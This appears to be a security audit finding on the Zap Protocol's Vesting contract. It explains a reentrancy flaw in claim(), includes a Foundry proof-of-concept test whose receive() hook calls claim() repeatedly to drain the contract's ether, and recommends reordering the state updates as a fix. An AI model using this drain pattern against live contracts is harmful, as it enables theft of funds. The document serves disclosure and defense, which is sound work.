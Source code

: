 Jumpy Violet Ram

high

# The `Vesting` contract can be drained because of a reentrancy in its `claim` function

## Summary
[Vesting.claim()](https://github.com/sherlock-audit/2024-03-zap-protocol/blob/c2ad35aa844899fa24f6ed0cbfcf6c7e611b061a/zap-contracts-labs/contracts/Vesting.sol#L82-L91) does not follow the [CEI](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html) pattern which creates a reentrancy that can be exploited to drain the contract.

## Vulnerability Detail
In order to claim, a user has to call [Vesting.claim()](https://github.com/sherlock-audit/2024-03-zap-protocol/blob/c2ad35aa844899fa24f6ed0cbfcf6c7e611b061a/zap-contracts-labs/contracts/Vesting.sol#L67-L92).

The function ensures that a user cannot claim their vested amount more than once by checking that the index variable is inside the bounds of the vestingPoints array. Then, for each claimed vested amount, the `i counter` is incremented.
```solidity
        require(s.index != vestingPoints.length, "already claimed");
        uint256 pctAmount;
        uint256 i = s.index;
        for (i; i <= vestingPoints.length - 1; i++) {
            if (block.timestamp >= vestingPoints[i][0]) {
                pctAmount += (s.userDeposit * vestingPoints[i][1]) / 10000;
            } else {
                break;
            }
        }
```

 In `claim()`, If the amount to be claimed is greater than zero, it is being send to the sender and only **AFTER** the external call are the state variables `index` and `amountClaimed` updated.

```solidity
        if (pctAmount != 0) {
            if (address(token) == address(1)) {
                (bool sent, ) = payable(sender).call{value: pctAmount}("");
                require(sent, "Failed to send BNB to receiver");
            } else {
                token.safeTransfer(sender, pctAmount);
            }
            s.index = uint128(i);
            s.amountClaimed += pctAmount;
        }
```
In the case of native token, a malicious `sender` can drain the contract by calling `claim` again and again in its `receive` function since the index will not be updated.

## Impact
The contract can be fully drained by a malicious receiver.

## Code Snippet
Foundry PoC
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.11;

import "forge-std/Test.sol";
import "../contracts/Vesting.sol";
import "../contracts/VestingFactory.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "forge-std/console.sol";

contract VestingTest is Test {
     VestingFactory public factory;
     Vesting public vestingMaster;
     uint256 startingBalance;

    function setUp() public {
        vestingMaster = new Vesting();
        factory = new VestingFactory(address(vestingMaster));
        factory.setOperator(address(this));
        startingBalance = address(this).balance;
    }

    function testClaimReentrancy() public {
        uint128[2][] memory vestingPoints = _getVestingPoints();
        Vesting vestingContract = _deployVesting(address(0x1), address(this), vestingPoints);
        deal(address(vestingContract), 20 ether);

        address[] memory users = new address[](1);
        uint256[] memory amount = new uint256[](1);

        users[0] = address(this);
        amount[0] = 5 ether;

        vestingContract.updateUserDeposit(users, amount);
        vestingContract.claim();

        assertEq(address(this).balance, startingBalance + 20 ether);
        assertEq(address(vestingContract).balance, 0);
    }

    function _deployVesting(address _token, address _wallet, uint128[2][] memory _vestingPoints) internal returns (Vesting){
        factory.createVestingSchedule(address(0), IERC20(_token), _wallet, _vestingPoints);
        return Vesting(payable(0xffD4505B3452Dc22f8473616d50503bA9E1710Ac));
    }

    function _getVestingPoints() internal returns(uint128[2][] memory) {
        uint128[2][] memory vestingPoints = new uint128[2][](1);
        uint128[2] memory points;

        points[0] = uint128(block.timestamp);
        points[1] = 10000;

        vestingPoints[0] = points;

        return vestingPoints;
    } 

    receive() external payable {
        while (address(this).balance < startingBalance + 20 ether) {
            Vesting(msg.sender).claim();
        }
    }
```

## Tool used

Manual Review

## Recommendation
Follow the CEI pattern.

```diff
        if (pctAmount != 0) {
+         s.index = uint128(i);
+         s.amountClaimed += pctAmount;
            if (address(token) == address(1)) {
                (bool sent, ) = payable(sender).call{value: pctAmount}("");
                require(sent, "Failed to send BNB to receiver");
            } else {
                token.safeTransfer(sender, pctAmount);
            }
 -           s.index = uint128(i);
 -           s.amountClaimed += pctAmount;
        }
```